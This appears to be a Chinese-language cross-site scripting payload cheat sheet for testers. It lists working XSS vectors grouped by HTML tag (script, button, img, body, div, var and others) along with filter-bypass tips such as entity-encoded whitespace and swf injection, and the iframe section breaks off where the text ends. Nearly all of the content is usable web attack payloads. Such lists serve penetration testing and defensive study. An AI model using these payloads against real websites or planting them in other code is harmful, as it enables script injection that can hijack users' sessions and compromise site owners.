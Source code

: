 ```

<script>alert(/3/)</script> //可以用"/"来代替单引号和双引号 

<script>alert(String.fromCharCode(49))</script> //我们还可以用char 

<script>alert(/7/.source)</script> // ".source"不会影响alert(7)的执行 

<script>setTimeout('alert(1)',0)</script> //如果输出是在setTimeout里，我们依然可以直接执行alert(1)

```

* Button 标签
> 
```
<form><button formaction=javascript&colon;alert(1)>M
<button onfocus=alert(1) autofocus>

``` 

* p标签
> 如果你发现变量输出在了p标签里，先不要急着从标签跳出去，因为只要你能跳出""就已经足够了。
`<p/onmouseover=javascript:alert(1); >M</p> `

* img标签 
> img标签没有什么好讲的了。不过值得注意的是，有些姿势是因浏览器不通而不能成功的执行的。所以在空闲时间对payload进行分类，做上可执行浏览器的注释来提高你挖掘XSS的效率。

```
<img src=x onerror=alert(1)> 
<img src ?itworksonchrome?\/onerror = alert(1)>  //只在chrome下有效 
<img src=x onerror=window.open('http://google.com');> 
<img/src/onerror=alert(1)>  //只在chrome下有效 
<img src="x:kcf" onerror="alert(1)">
```

* body标签 
> 没有什么特别之处，都是通过event来调用js 

```
<body onload=alert(1)> 
<body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus> 

```

* var标签
> `<var onmouseover="prompt(1)">KCF</var>`

* div标签
> 
```
<div/onmouseover='alert(1)'>X 
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onclick="alert(52)">
```

* iframe标签
> iframe这个例子当中值得一提的是，有时候我们可以通过实体编码&NewLine;&Tab（换行和tab字符）来bypass一些filter。我们还可以通过事先在swf文件中插入我们的xss code,然后通过src属性来调用。不过关于flash值得一提的是，只有在crossdomain.xml文件中，allow-access-from domain=“*"允许从外部调用swf时，我们才可以通过flash来实现xss attack.
